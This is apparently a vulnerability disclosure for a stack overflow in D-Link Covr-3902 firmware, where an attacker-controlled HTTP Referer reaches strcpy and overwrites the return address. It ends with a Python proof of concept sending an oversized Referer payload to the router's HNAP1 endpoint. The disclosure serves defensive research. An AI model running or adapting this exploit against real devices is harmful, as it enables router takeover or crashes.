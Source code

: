 # Covr-3902 stack overflow vulnerability
## Overview
Manufacturer's website:[http://www.dlink.com.cn/](http://www.dlink.com.cn/)
Firmware download website:[http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902)
## Affected version
FW101b05
## Vulnerability details
In the function `sub_24E28`, the `HTTP_REFERER` is obtained through an environment variable, and this field is controllable, allowing it to be used as the value for `src`.
![](_v_images/20240812131205937_2109.png =294x)
When the field value does not match the field within the program, it enters the `else` branch.
![](_v_images/20240812123056250_20357.png =892x)
The stack overflow is achieved through the `strcpy` function, which overwrites the return address, and the address is controllable.
![](_v_images/20240812142111525_6038.png =1117x)
## POC
```python
import requests
from pwn import *
payload = (
    b"http://192.168.0.1/SystemPayload"
    + payload_value
    + p32(0xdeadbeef)
    + payload_value2
    + p32(0xdeadbeef)
    + p32(0xdeadbeef)
    + cyclic(0x400)
)
# URL encode the payload to make it safe for use in the Referer header
burp0_url = "http://192.168.0.1:80/HNAP1/"
burp0_cookies = {"uid": "YAQEECTwfI"}
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "text/xml; charset=utf-8",
    "SOAPAction": "\"http://purenetworks.com/HNAP1/GetDeviceFeatureAlpha\"",
    "HNAP_AUTH": "6E2565C8AE7008FF550E57BEB55A8FEE 1723345713",
    "Content-Length": "318",
    "Adcheck": "65535",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": payload  
}
response = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
print("Response Status Code:", response.status_code)
print("Response Content:", response.text)
```